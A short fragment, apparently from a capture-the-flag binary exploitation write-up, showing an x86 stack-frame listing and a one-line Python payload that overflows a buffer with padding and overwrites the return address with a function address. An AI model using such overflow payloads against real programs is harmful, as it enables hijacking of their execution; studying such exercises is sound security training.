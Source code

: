 ```x86asm
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

```python
payload = b'a' * (0xf) + p64(0x401186)
```
